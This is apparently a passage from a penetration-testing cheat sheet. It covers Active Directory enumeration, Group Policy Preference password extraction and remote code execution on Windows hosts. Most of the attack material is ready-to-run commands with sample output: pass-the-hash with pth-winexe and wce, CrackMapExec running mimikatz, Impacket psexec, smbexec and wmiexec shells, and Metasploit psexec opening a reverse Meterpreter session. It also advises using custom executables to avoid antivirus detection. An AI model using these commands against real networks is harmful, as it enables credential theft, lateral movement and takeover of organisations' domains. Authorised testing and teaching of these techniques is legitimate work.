Discovering the Service Accounts
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

By Doing an SPN Scan for user accounts with Service Principal Names the service Accounts and the server accounts used can be identified.

::

 PS C:\> get-aduser -filter {ServicePrincipalName -like “*”} -Properties PasswordLastSet,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation 

Discovering the Computers and Domain Controllers without scanning the network
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The information regarding the computer operating system, DNSHostName, LastLogon Date etc. can also be gathered. Since every computer joining the active directory has an associated computer account in AD. When the computer is joined, several attributes such as date created, Modified, OperatingSystemVersion etc. are associated with this computer object that are updated. Such information can also be further used for lateral movements.

::

 PS C:\> get-adcomputer -filter {PrimaryGroupID -eq “515”} -Properties OperatingSystem,OperatingSystemVersion,OperatingSystemServicePack,
 Passwot,LastLogonDate,ServicePrincipalName,TrustedForDelegation,TrustedtoAuthForDelegation

The same information regarding the Domain Controllers can also be gathered by simply changing the PrimaryGroupID value to '516'. to obtain the details of all the computers in active directory by simply putting a wildcard mask in the filter parameter such as “-filter * ".

Identifying the Admin Accounts   
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

The privileged accounts can be identified using two methods. The first one is by doing a detailed group enumeration, by doing this all members of the standard Active Directory admin groups: Domain Admins, Administrators, Enterprise Admins, etc. one such command is "Net Group "Domain Admins" /Domain" which will give us the list of Domain Administrators.

Another method is by identifying all accounts which have the attribute “AdminCount” set to 1. However, this may not be sometimes accurate since there may be accounts returned in this query which no longer have admin rights because these values aren't automatically reset even if the accounts are disabled or no longer a part of Admins group.

::

 PS C:\> get-aduser -filter {AdminCount -eq 1} -Properties Name,AdminCount,ServicePrincipalName,PasswordLastSet,LastLogonDate,MemberOf

This query will give us the "AdminCount :1" which indicates that the account is privileged account.

Finding the Admin Groups
^^^^^^^^^^^^^^^^^^^^^^^^

Most of the organizations follow a naming convention for the admin groups such as Domain Admins, Server Admins, Workstation Admins, Administrators etc. By Querying the Active Directory for groups with Admin as term we can identify the administrator groups.

::

 PS C:\> get-adgroup -filter {GroupCategory -eq ‘Security’ -AND Name -like “*admin*”}

Domain Password Policy
^^^^^^^^^^^^^^^^^^^^^^

The Domain password policy can be easily gathered either by using Net Accounts or Get-ADDefaultPasswordPolicy.

::

 Get-ADDefaultDomainPasswordPolicy
 Net Accounts

.. Note :: To use Get-ADDefaultPasswordPolicy PowerView.PS1 module is to be imported first.

Identifying the Groups with Local Admin Rights to windows machines
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Using the Powerview.PS1 module we can easily identify the identify GPOs that include Restricted Groups.


::

 PS C:\> Get-NetGPOGroup

we can also check to what OUs the GPOs link using a PowerView cmdlet.

::

 get-netOU -guid “GPOName Obtained Above”

next to identify the workstations/servers in the OU

::

 get-adcomputer -filter * -SearchBase “Result of the above”


PowerShell [adsiSearcher] Type Accelerator
------------------------------------------

If we have credentials of the user and a powershell prompt, we can utilize adsiSearcher to do the AD Enumeration

Define username, password, Domain, etc.
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 $username = 'BITVIJAYS\LDAP'
 $password = 'PasswordForSearch!'
 $DomainControllerIpAddress = '10.2.2.2'
 $LdapDn = 'DC=bitvjays,DC=local'

Initialize the connection
^^^^^^^^^^^^^^^^^^^^^^^^^

When credentials are present and we are connecting using a non-domain machine, use below

::

 $dn = New-Object System.DirectoryServices.DirectoryEntry ("LDAP://$($DomainControllerIpAddress):389/$LdapDn",$username,$password)
 $ds = New-object System.DirectoryServices.DirectorySearcher($dn)

When you are already connected to the domain machine

[adsisearcher]”” specifies a filter that has no characters in it. The good thing is that the searchroot is automatically set to the root of the current domain.

::

 $ds = [adsisearcher]""

Finding the Domain Name
^^^^^^^^^^^^^^^^^^^^^^^

::

 $ds.SearchRoot
 distinguishedName : {DC=bitvijays,DC=local}
 Path : LDAP://DC=bitvijays,DC=local

Finding the Computers
^^^^^^^^^^^^^^^^^^^^^

::

 PS > $ds.Filter ="((objectCategory=computer))"
 PS > $ds.FindAll() --- Provides all the objects in the AD for computers
 PS > $ds.FindOne() --- Provides one object in the AD for computers

Result

::

 Path                                                                  Properties
 ----                                                                  ----------
 LDAP://10.2.2.2:389/CN=DC,OU=Domain Controllers,DC=bitvijays,DC=local {ridsetreferences, logoncount, codepage, objec...
 LDAP://10.2.2.2:389/CN=FILE,CN=Computers,DC=bitvijays,DC=local        {logoncount, codepage, objectcategory, iscriti... 

Finding the Users:
^^^^^^^^^^^^^^^^^^

::

 PS > $ds.Filter ="((objectCategory=user))"
 PS > $ds.FindAll() --- Provides all the objects in the AD for users

Properties of the object
^^^^^^^^^^^^^^^^^^^^^^^^

We can use 

::

 $ds.FindOne().properties
 $ds.FindAll().properties

to find the properties of the object. Once the properties are found, we can search for any particular object based on regex.

Examples:

* Finding a particular user named Bob
  
 Check the properties of the user

 ::

  Properties of a user
  PS > $ds.findOne().properties

  Name                           Value
  ----                           -----
  objectcategory                 {CN=Person,CN=Schema,CN=Configuration,DC=bitvijays,DC=local}
  name                           {Administrator}
  cn                             {Administrator}
  admincount                     {1}
  samaccountname                 {Administrator}

 
 Then particularly search for a user

 ::
  
  PS > $ds.Filter ="((name=*Bob*))"
  PS > $ds.Findall()

  Path                                                                Properties
  ----                                                                ----------
  LDAP://10.2.2.2:389/CN=Bobby John,OU=People,DC=bitvijays,DC=local {logoncount, codepage, objectcategory, descripti...
  
* Finding all users of a particular group

 ::

  $ds.filter = "(&(objectCategory=user)(memberOf=CN=Domain Admins,CN=Users,DC=bitvijays,dc=local))"

Get sessions of remote machines
-------------------------------

Powerview Get-NetSession
^^^^^^^^^^^^^^^^^^^^^^^^

net session
^^^^^^^^^^^^^

* Net session of current computer

 ::

   net session

   Computer               User name            Client Type       Opens Idle time

   -------------------------------------------------------------------------------
   \\127.0.0.1            Administrat0r                              1 05D 22H 02M

   The command completed successfully.

* Net session of remote computer
 
 :: 

   net session \\computername

WMI
^^^

We can use wmi to get the remote logged on users. However, I believe to run wmi on remote machine, you need to be administrator of that machine.

::

  wmic:root\cli> /node:"computername" path win32_loggeduser get antecedent
  
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="srv.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="ABCROOT",Name="axx.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="MA",Name="axxd.xxxxx"
  \\.\root\cimv2:Win32_Account.Domain="DC",Name="ANONYMOUS LOGON"

View users in Domain / Workgroup
--------------------------------

Powerview Get-NetUser
^^^^^^^^^^^^^^^^^^^^^

net user /domain
^^^^^^^^^^^^^^^^

WMI
^^^

Domain users:

:: 

  wmic useraccount list /format:list 


View machines in Domain/ Workgroup
----------------------------------

Powerview Get-NetComputers
^^^^^^^^^^^^^^^^^^^^^^^^^^

net view /domain
^^^^^^^^^^^^^^^^

? -- check the functionality

View machines affected by GPP vulnerability
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

When we run Get-GPPPassword, we get output like

::

  Password: password@123
  Changed : 2013-07-02 01:01:23
  Username: Administrator
  NewName : 
  File    : \\Demo.lab\sysvol\demo.lab\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\DataSources\{DataSouces| Groups| ScheduledTasks.xml

To get the computers using the passwords set by the GPP, we can use

::

  Get-NetOU -GUID "{31B2F340-016D-11D2-945F-00C04FB984F9}" | %{ Get-NetComputer -ADSPath $_ }

Get-NetSite function, which returns the current sites for a domain, also accepts the -GUID filtering flag. This information has been taken from harmj0y blog `gpp and powerview <http://www.harmj0y.net/blog/powershell/gpp-and-powerview/>`_ 

More information about GPP should be read from Sean Metcalf blog `Using Group Policy Preferences for Password Management = Bad Idea <https://adsecurity.org/?p=384>`_ and `Finding Passwords in SYSVOL & Exploiting Group Policy Preferences <https://adsecurity.org/?p=2288>`_ 

There are various methods to figure out the GPP Password if it's set.

* `Get-GPPPassword.ps1 <https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Get-GPPPassword.ps1>`_ :  **PowerShell script** that can identify and extract the password(s) stored in Group Policy Preferences using the MSDN AES key. 

* **Metasploit auxiliary module - SMB Group Policy Preference Saved Passwords Enumeration** :  This module enumerates files from target domain controllers and connects to them via SMB. It then looks for Group Policy Preference XML files containing local/domain user accounts and passwords and decrypts them using Microsoft's public AES key. This module has been tested successfully on a Win2k8 R2 Domain Controller. ( Requires domain user credentials)

 ::

   use auxiliary/scanner/smb/smb_enum_gpp
   set smbdomain example.com
   set smbuser user
   set smbpass pass
   set rhosts 192.168.56.2

 Thanks to Tanoy Bose for informing about this!. Previously, we used to manually search the SYSVOL location! ( When for some reason Get-GPPPassword doesn't work! )

* **Meterpreter session**, we can use metasploit post module - Windows Gather Group Policy Preference Saved Passwords : This module enumerates the victim machine's domain controller and connects to it via SMB. It then looks for Group Policy Preference XML files containing local user accounts and passwords and decrypts them using Microsoft's public AES key. Cached Group Policy files may be found on end-user devices if the group policy object is deleted rather than unlinked. 

 :: 

  use post/windows/gather/credentials/gpp
  set session <Session_Number>

* **Reading Group Policies** manually stored here: \\\<DOMAIN>\\SYSVOL\\<DOMAIN>\\Policies\\

View group in Domain / Workgroup
--------------------------------

Powerview Get-NetGroupMember
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Net group / domain
^^^^^^^^^^^^^^^^^^

Windows Resource Kit Local/ Global executable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Global.exe 

 ::

   PS C:\> .\global.exe

   Displays members of global groups on remote servers or domains.

   GLOBAL group_name domain_name | \\server

   group_name    The name of the global group to list the members of.
   domain_name   The name of a network domain.
   \\server      The name of a network server.

   Examples:
   Global "Domain Users" EastCoast
   Displays the members of the group 'Domain Users' in the EastCoast domain.

   Global PrintUsers \\BLACKCAT
   Displays the members of the group PrintUsers on server BLACKCAT.

   Notes:
   Names that include space characters must be enclosed in double quotes.
   To list members of local groups use Local.Exe.
   To get the Server name for a give Domain use GetDC.Exe.

 Example:

 ::

   PS C:\> .\global.exe "Domain Admins" \\domainname
   Uraxxxx
   axx.xxxxx
   axx.xxxxx2
   axx.xxxxxx3


BloodHound Group Memberships
^^^^^^^^^^^^^^^^^^^^^^^^^^^^

WMI user groups
^^^^^^^^^^^^^^^
 
::

  wmic group list brief
  ABCD\SUS Administrator    ABCD          SUS Administrator                                         S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-7357
  ABCD\VPN Admins           ABCD          VPN Admins                                                S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-8728
  ABCD\VPN Users            ABCD          VPN Users                                                 S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-9229
  ABCD\XXX - OER Users      ABCD          XXX - OER Users                                           S-1-5-21-XXXXXXXXX-XXXXXXXXX-XXXXXXXXX-5095


Hunting for a particular User?
------------------------------

Powerview Invoke-UserHunter
^^^^^^^^^^^^^^^^^^^^^^^^^^^

BloodHound users_sessions
^^^^^^^^^^^^^^^^^^^^^^^^^

EventLog AD? 
^^^^^^^^^^^^
How? Not yet successful!

.. To Do :: * Finding which machine belong to which user? Any other way than above?  * Machine belongs to which user AD Properties -- GETADObject (Tanoy)

.. _remote-code-execution-methods:

Remote Code Execution Methods
=============================

A lot of details for Remote Code execution has already been mentioned by Rop Nop in his three parts `Part 1: Using credentials to own windows boxes <https://blog.ropnop.com/using-credentials-to-own-windows-boxes/>`_ , `Part2: PSExec and Services <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-2-psexec-and-services/>`_ and `Part: 3 Wmi and WinRM <https://blog.ropnop.com/using-credentials-to-own-windows-boxes-part-3-wmi-and-winrm/>`_ and by scriptjunkie in his blog `Authenticated Remote Code Execution Methods in Windows <https://www.scriptjunkie.us/2013/02/authenticated-remote-code-execution-methods-in-windows/>`_ 

We have just summarized all in one page with *working* examples wherever possible.

Winexe
------

Linux Binary pth-winexe
^^^^^^^^^^^^^^^^^^^^^^^

::

  winexe version 1.1
  Usage: winexe [OPTION]... //HOST COMMAND
  Options:
   -h, --help                                  Display help message
   -V, --version                               Display version number
   -U, --user=[DOMAIN/]USERNAME[%PASSWORD]     Set the network username
   -A, --authentication-file=FILE              Get the credentials from a file
   -N, --no-pass                               Do not ask for a password
   -k, --kerberos=STRING                       Use Kerberos, -k [yes|no]
   -d, --debuglevel=DEBUGLEVEL                 Set debug level
       --uninstall                             Uninstall winexe service after remote execution
       --reinstall                             Reinstall winexe service before remote execution
       --system                                Use SYSTEM account
       --profile                               Load user profile
       --convert                               Try to convert characters between local and remote code-pages
       --runas=[DOMAIN\]USERNAME%PASSWORD      Run as the given user (BEWARE: this password is sent in cleartext over the network!)
       --runas-file=FILE                       Run as user options defined in a file
       --interactive=0|1                       Desktop interaction: 0 - disallow, 1 - allow. If allow, also use the --system switch (Windows requirement). Vista does not support this option.
       --ostype=0|1|2                          OS type: 0 - 32-bit, 1 - 64-bit, 2 - winexe will decide. Determines which version (32-bit or 64-bit) of service will be installed.
  
Example with pth:

::

  pth-winexe -U ./Administrator%aad3b435b51404eeaad3b435b51404ee:4b579a266f697c2xxxxxxxxx //10.145.X.X cmd.exe
  pth-winexe -U EXAMPLE/Administrator%example@123 //10.145.X.X cmd.exe

If we want to login as NTAuthority, probably use --system. (Helpful when we to run commands as NTAuthority such as installing ssh server host keys)

Windows Binary win-exe
^^^^^^^^^^^^^^^^^^^^^^

win-exe can be downloaded from `winexe <https://sourceforge.net/projects/winexe/>`_ 

commands and usage is same as linux binary pth-winexe. However, it needed to be compiled from the source.

crackmapexec
------------

`CrackMapExec <https://github.com/byt3bl33d3r/CrackMapExec>`_ is quite awesome tool when it comes to remote command execution. Read the `wiki <https://github.com/byt3bl33d3r/CrackMapExec/wiki>`_ 

Usage
^^^^^

::

  positional arguments:
  target                The target IP(s), range(s), CIDR(s), hostname(s), FQDN(s) or file(s) containing a list of targets

  optional arguments:
    -h, --help            show this help message and exit
    -v, --version         show program's version number and exit
    -t THREADS            Set how many concurrent threads to use (default: 100)
    -u USERNAME [USERNAME ...]  Username(s) or file(s) containing usernames
    -d DOMAIN             Domain name
    --local-auth          Authenticate locally to each target
    -p PASSWORD [PASSWORD ...]  Password(s) or file(s) containing passwords
    -H HASH [HASH ...]    NTLM hash(es) or file(s) containing NTLM hashes
    -M MODULE, --module MODULE Payload module to use
    -MC CHAIN_COMMAND, --module-chain CHAIN_COMMAND  Payload module chain command string to run
    -o MODULE_OPTION [MODULE_OPTION ...] Payload module options
    -L, --list-modules    List available modules
    --show-options        Display module options
    --verbose             Enable verbose output

  Credential Gathering:
  Options for gathering credentials

  --sam                 Dump SAM hashes from target systems
  --lsa                 Dump LSA secrets from target systems
  --ntds {vss,drsuapi}  Dump the NTDS.dit from target DCs using the specified method
                        (drsuapi is the fastest)
  --ntds-history        Dump NTDS.dit password history
  --ntds-pwdLastSet     Shows the pwdLastSet attribute for each NTDS.dit account
  --wdigest {enable,disable}
                        Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
  Mapping/Enumeration:
  Options for Mapping/Enumerating

  --shares              Enumerate shares and access
  --uac                 Checks UAC status
  --sessions            Enumerate active sessions
  --disks               Enumerate disks
  --users               Enumerate users
  --rid-brute [MAX_RID]
                        Enumerate users by bruteforcing RID's (default: 4000)
  --pass-pol            Dump password policy
  --lusers              Enumerate logged on users
  --wmi QUERY           Issues the specified WMI query
  --wmi-namespace NAMESPACE
                        WMI Namespace (default: //./root/cimv2)

  Command Execution:
  Options for executing commands

  --exec-method {smbexec,wmiexec,atexec}
                        Method to execute the command. Ignored if in MSSQL mode (default: wmiexec)
  --force-ps32          Force the PowerShell command to run in a 32-bit process
  --no-output           Do not retrieve command output
  -x COMMAND            Execute the specified command
  -X PS_COMMAND         Execute the specified PowerShell command


Modules
^^^^^^^
::

 crackmapexec smb -L

 [*] empire_exec               Uses Empire's RESTful API to generate a launcher for the specified listener and executes it
 [*] enum_avproducts           Gathers information on all endpoint protection solutions installed on the the remote host(s) via WMI
 [*] enum_chrome               Decrypts saved Chrome passwords using Get-ChromeDump
 [*] get_keystrokes            Logs keys pressed, time and the active window
 [*] get_netdomaincontroller   Enumerates all domain controllers
 [*] get_netrdpsession         Enumerates all active RDP sessions
 [*] get_timedscreenshot       Takes screenshots at a regular interval
 [*] gpp_autologin             Searches the domain controller for registry.xml to find autologon information and returns the username and password.
 [*] gpp_password              Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
 [*] invoke_sessiongopher      Digs up saved session information for PuTTY, WinSCP, FileZilla, SuperPuTTY, and RDP using SessionGopher
 [*] invoke_vnc                Injects a VNC client in memory
 [*] met_inject                Downloads the Meterpreter stager and injects it into memory
 [*] mimikatz                  Dumps all logon credentials from memory
 [*] mimikatz_enum_chrome      Decrypts saved Chrome passwords using Mimikatz
 [*] mimikatz_enum_vault_creds Decrypts saved credentials in Windows Vault/Credential Manager
 [*] mimikittenz               Executes Mimikittenz
 [*] multirdp                  Patches terminal services in memory to allow multiple RDP users
 [*] netripper                 Capture's credentials by using API hooking
 [*] pe_inject                 Downloads the specified DLL/EXE and injects it into memory
 [*] rdp                       Enables/Disables RDP
 [*] shellcode_inject          Downloads the specified raw shellcode and injects it into memory
 [*] slinky                    Creates windows shortcuts with the icon attribute containing a UNC path to the specified SMB server in all shares with write permissions
 [*] test_connection           Pings a host
 [*] tokens                    Enumerates available tokens
 [*] uac                       Checks UAC status
 [*] wdigest                   Creates/Deletes the 'UseLogonCredential' registry key enabling WDigest cred dumping on Windows >= 8.1
 [*] web_delivery              Kicks off a Metasploit Payload using the exploit/multi/script/web_delivery module


Using a module

Simply specify the module name with the -M flag:

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz
 06-05-2016 14:13:59 CME          192.168.10.11:445 WIN7BOX         [*] Windows 6.1 Build 7601 (name:WIN7BOX) (domain:LAB)

Use the -M flag to specify the module and the --options argument to view the module's supported options:

::
 
 #~ crackmapexec -M mimikatz --options
 06-05-2016 14:10:33 [*] mimikatz module options:
 COMMAND Mimikatz command to execute (default: 'sekurlsa::logonpasswords')

Using module options
Module options are specified with the -o flag. All options are specified in the form of KEY=value (msfvenom style)

::

 crackmapexec 192.168.10.11 -u Administrator -p 'P@ssw0rd' -M mimikatz -o COMMAND=privilege::debug

Smbmap
------

smbmap an inbuilt tool in kali linux which gives some awesome results while gathering information related to the shares associated to with a particular user. As compared to the crackmapexec we can also use smbmap in order to verify the credentials gathered. This can not only be used to map the shares but can also be used for running remote commands by specifying the '-x' flag.

::

  smbmap -H 192.168.4.32 -d ABC.com -u Administrat0r -p P@ssw0rd!
  [+] Finding open SMB ports....
  [+] User SMB session established on 192.168.4.32...
  [+] IP: 10.7.3.2:445	Name: dcrs.ABC.com                              
  	Disk                                                  	Permissions
	----                                                  	-----------
	ADMIN$                                            	READ, WRITE
	C$                                                	READ, WRITE
	IPC$                                              	READ ONLY
	NETLOGON                                          	READ, WRITE
	SYSVOL                                            	READ, WRITE
	[!] Unable to remove test directory at \\192.168.4.32\SYSVOL\BiZyIseFGv, please remove manually.


Impacket psexec/ smbexe/ wmiexec
--------------------------------

Impacket psexec
^^^^^^^^^^^^^^^

::

  ./psexec.py -debug Admini:Password@10.0.X.X

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies
 
  [*] Trying protocol 445/SMB...
  [*] Requesting shares on 10.0.5.180.....
  [*] Found writable share ADMIN$
  [*] Uploading file kBibbkKL.exe
  [*] Opening SVCManager on 10.0.5.180.....
  [*] Creating service cvZN on 10.0.5.180.....
  [*] Starting service cvZN.....
  [-] Pipe not ready, aborting
  [*] Opening SVCManager on 10.0.5.180.....
  [*] Stoping service cvZN.....
  [*] Removing service cvZN.....
  [*] Removing file kBibbkKL.exe.....

Impacket smbexec
^^^^^^^^^^^^^^^^

::

  ./smbexec.py -debug Admini:Password@10.0.5.180

  Impacket v0.9.16-dev - Copyright 2002-2016 Core Security Technologies

  [+] StringBinding ncacn_np:10.0.5.180[\pipe\svcctl]
  [+] Executing %COMSPEC% /Q /c echo cd  ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat
  [!] Launching semi-interactive shell - Careful what you execute

  C:\Windows\system32>ipconfig
  [+] Executing %COMSPEC% /Q /c echo ipconfig ^> \\127.0.0.1\C$\__output 2^>^&1 > %TEMP%\execute.bat & %COMSPEC% /Q /c %TEMP%\execute.bat & del %TEMP%\execute.bat

  Windows IP Configuration


  Ethernet adapter Local Area Connection:

  Connection-specific DNS Suffix  . : 
  Link-local IPv6 Address . . . . . : fe80::4546:b672:307:b488%10
  IPv4 Address. . . . . . . . . . . : 10.0.X.XX
  Subnet Mask . . . . . . . . . . . : 255.255.254.0
  Default Gateway . . . . . . . . . : 10.0.X.1

  Tunnel adapter isatap.{EB92DEE7-521B-4E14-84C2-0E9B9E96563E}:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  Tunnel adapter Local Area Connection* 11:

  Media State . . . . . . . . . . . : Media disconnected
  Connection-specific DNS Suffix  . : 

  C:\Windows\system32>

Impacket wmiexec
^^^^^^^^^^^^^^^^

::

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies
  
  usage: wmiexec.py [-h] [-share SHARE] [-nooutput] [-debug]
                    [-hashes LMHASH:NTHASH] [-no-pass] [-k] [-aesKey hex key]
                    [-dc-ip ip address]
                    target [command [command ...]]

  Executes a semi-interactive shell using Windows Management Instrumentation.

  positional arguments:
    target                [[domain/]username[:password]@]<targetName or address>
    command               command to execute at the target. If empty it will
                          launch a semi-interactive shell

  authentication:
    -hashes LMHASH:NTHASH
                          NTLM hashes, format is LMHASH:NTHASH
    -no-pass              don't ask for password (useful for -k)
    -k                    Use Kerberos authentication. Grabs credentials from
                          ccache file (KRB5CCNAME) based on target parameters.
                          If valid credentials cannot be found, it will use the
                          ones specified in the command line
    -aesKey hex key       AES key to use for Kerberos Authentication (128 or 256
                          bits)
    -dc-ip ip address     IP Address of the domain controller. If ommited it use
                          the domain part (FQDN) specified in the target
                          parameter

**Example with password**

::

  wmiexec.py -debug Administrat0r:Passw0rd\!\!@10.0.5.180

  Impacket v0.9.15 - Copyright 2002-2016 Core Security Technologies

  [*] SMBv2.1 dialect used
  [+] Target system is 10.0.5.180 and isFDQN is False
  [+] StringBinding: \\\\xxxxHBKS1739[\\PIPE\\atsvc]
  [+] StringBinding: xxxxhbks1739[49155]
  [+] StringBinding: 10.0.5.180[49155]
  [+] StringBinding chosen: ncacn_ip_tcp:10.0.5.180[49155]
  [!] Launching semi-interactive shell - Careful what you execute
  [!] Press help for extra shell commands
  C:\>hostname
  xxxxhbks1739

  C:\>whoami
  xxxxhbks1739\administrat0r

  C:\>

**Example with hashes**

::

    wmiexec.py -debug -hashes xxxxxxxxxxxxxx:xxxxxxx  Administrat0r@10.0.5.180
  
Metasploit psexec
-----------------

Metasploit psexec have three methods to invoke, 

::

   msf exploit(psexec) > show targets 

   Exploit targets:

   Id  Name
   --  ----
    0   Automatic
    1   PowerShell
    2   Native upload
    3   MOF upload


Target 2: Native upload
^^^^^^^^^^^^^^^^^^^^^^^

::

  msf exploit(psexec) > set target 2
  target => 2

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Uploading payload...
  [*] 10.0.5.180:445 - Created \hnFrgUVk.exe...
  [-] 10.0.5.180:445 - Service failed to start - ACCESS_DENIED
  [*] 10.0.5.180:445 - Deleting \hnFrgUVk.exe...
  [*] Exploit completed, but no session was created.


We can see that the exploit was completed however, no session was created. Also the antivirus provided an alert.

::
  
 Datei "C:\Windows\hnFrgUVk.exe" belongs to virus/spyware 'Troj/Swrort-K'.

Let's try with 

Target 1, powershell 
^^^^^^^^^^^^^^^^^^^^  

::

  msf exploit(psexec) > set smbdomain .
  smbdomain => .
  msf exploit(psexec) > set smbuser Administrat0r
  smbuser => Administrat0r
  msf exploit(psexec) > set smbpass Passw0rd!!
  smbpass => Passw0rd!!
  msf exploit(psexec) > set rhost 10.0.5.180
  rhost => 10.0.5.180
  msf exploit(psexec) > run 

  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Exploit completed, but no session was created.
  msf exploit(psexec) > run 
  
  [*] Started reverse TCP handler on 10.11.43.116:4444 
  [*] 10.0.5.180:445 - Connecting to the server...
  [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
  [*] 10.0.5.180:445 - Selecting PowerShell target
  [*] 10.0.5.180:445 - Executing the payload...
  [+] 10.0.5.180:445 - Service start timed out, OK if running a command or non-service executable...
  [*] Sending stage (957487 bytes) to 10.0.5.180
  [*] Meterpreter session 1 opened (10.11.43.116:4444 -> 10.0.5.180:64783) at 2017-02-20 16:31:41 +0530
  
  meterpreter > 

Let's try also with 

Target 3: MOF Upload
^^^^^^^^^^^^^^^^^^^^

:: 

   msf exploit(psexec) > set target 3
   target => 3

   [*] Started reverse TCP handler on 10.11.43.116:4444 
   [*] 10.0.5.180:445 - Connecting to the server...
   [*] 10.0.5.180:445 - Authenticating to 10.0.5.180:445 as user 'Administrat0r'...
   [*] 10.0.5.180:445 - Trying wbemexec...
   [*] 10.0.5.180:445 - Uploading Payload...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\KiaHTgBg.exe
   [*] 10.0.5.180:445 - Uploading MOF...
   [*] 10.0.5.180:445 - Created %SystemRoot%\system32\wbem\mof\5SZ1WZENmHyays.MOF
   [*] Exploit completed, but no session was created.
 

Working of MSF PSexec - Native Upload
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Jonathan has already written awesome detailed blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ Working of MSF PSExec has been taken from his blog directly.

While similar in functionality to Sysinternal’s PsExec, the Metasploit Framework’s PSExec Module has a few key differences and at a high-level performs the following actions.  By default, the module takes the following actions:

* Creates a randomly-named service executable with an embedded payload
* Connects to the hidden ADMIN$ share on the remote system via SMB
* Drops malicious service executable onto the share
* Utilizes the SCM to start a randomly-named service
* Service loads the malicious code into memory and executes it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself, stopping the service and deleting the executable

There is more flexibility with the Metasploit’s PSExec in comparison to Microsoft’s tool.  For instance, the default location of the malicious service executable can be modified from the hidden ADMIN$ to C$ or even another shared folder on the target machine.  Names of the service executable and associated service can also be changed under the module’s Advanced settings.

However, the most important modification that a penetration tester can make is creating and linking to a custom service executable instead of relying on the executable templates provided by the Metasploit Framework.  Failure to do so greatly increases the risk of detection by the target system’s anti-virus solution once the executable is dropped to disk. 

Working of MSF PSExec - Powershell
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Details taken directly from Jonathan blog `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_

At a high-level, the psexec_psh module works as follows:

* Embed stager into a PowerShell script that will inject the payload into memory
* Compress and Base64 encode the PowerShell script
* Wrap encoded script into a PowerShell one-liner that decodes and deflates
* Connect to ADMIN$ share on target machine over SMB and run the one-liner
* Embedded script is passed into memory via PowerShell’s Invoke-Expression (IEX)
* Script creates a new service and passes stager payload into it
* Metasploit payload handler receives payload and establishes session
* Module cleans up after itself by tearing down the service


Sysinternals psexec
-------------------

Microsoft Sysinternal tool psexec can be downloaded from `PsExec <https://technet.microsoft.com/en-us/sysinternals/pxexec.aspx>`_. Mark has written a good article on how psexec works is `PsExec Working <http://windowsitpro.com/systems-management/psexec>`_.

::

 psexec.exe \\Computername -u DomainName\username -p password <command>
 command can be cmd.exe/ ipconfig etc.

Working of Microsoft PSExec
^^^^^^^^^^^^^^^^^^^^^^^^^^^

The below details are taken from Jonathan blog on `Puff Puff PSExec <https://www.toshellandback.com/2017/02/11/psexec/>`_ 

At a high-level, the PsExec program works as follows:

* Connects to the hidden ADMIN$ share (mapping to the C:\Windows folder) on the remote system via SMB
* Utilizes the Service Control Manager (SCM) to start the PsExecsvc service and enable a named pipe on the remote system
* Input/output redirection of the console is achieved via the created named pipe

Sysinternal PSExec with hashes
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

Sysinternal PSExec is a tool built to assist system administrators. In order to use PsExec with captured hashes, we would require Windows Credential Editor (WCE).  This would require us to drop another executable to disk and risk detection. Fuzzynop has provided a tutorial `Pass the Hash without Metasploit <http://fuzzynop.blogspot.in/2012/09/pass-hash-without-metasploit.html>`_ 

* Change the current NTLM credentials

 ::

  wce.exe -s <username>:<domain>:<lmhash>:<nthash>

 Example:

 ::

  C:\Users\test>wce.exe -s testuser:amplialabs:01FC5A6BE7BC6929AAD3B435B51404EE:0CB6948805F797BF2A82807973B89537

